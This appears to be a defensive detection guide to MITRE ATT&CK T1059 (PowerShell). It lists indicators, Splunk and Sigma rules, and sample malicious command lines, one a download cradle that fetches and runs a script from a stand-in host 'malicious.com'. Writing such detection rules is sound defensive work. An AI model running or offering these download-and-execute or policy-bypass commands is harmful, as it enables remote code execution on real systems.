 # T1059: Command and Scripting Interpreter

## Technique Overview

**MITRE ATT&CK ID**: T1059  
**Tactic**: Execution  
**Platform**: Windows, macOS, Linux  
**Permissions Required**: User, Administrator  
**Data Sources**: Process monitoring, command line logging  

### Description
Adversaries may abuse command and script interpreters to execute commands, scripts, or binaries. These interfaces and languages provide ways of interacting with computer systems and are a common feature across many different platforms.

## Sub-techniques

### T1059.001: PowerShell
**Platform**: Windows  
**Detection Difficulty**: Medium  

#### Indicators
- PowerShell execution with suspicious parameters
- Base64 encoded commands
- Download cradles and execution
- Bypass execution policies

```powershell
# Common malicious PowerShell patterns
powershell.exe -EncodedCommand [BASE64_STRING]
powershell.exe -ExecutionPolicy Bypass -File script.ps1
iex (iwr 'http://malicious.com/script.ps1')
```

#### Detection Rules
```yaml
# Splunk SPL
index=windows EventCode=4688 | 
where match(CommandLine, "(?i)powershell.*-enc.*") OR 
      match(CommandLine, "(?i)powershell.*-executionpolicy.*bypass")

# Sigma Rule
title: Suspicious PowerShell Execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-EncodedCommand'
            - '-ExecutionPolicy Bypass'
            - 'DownloadString'
    condition: selection
```

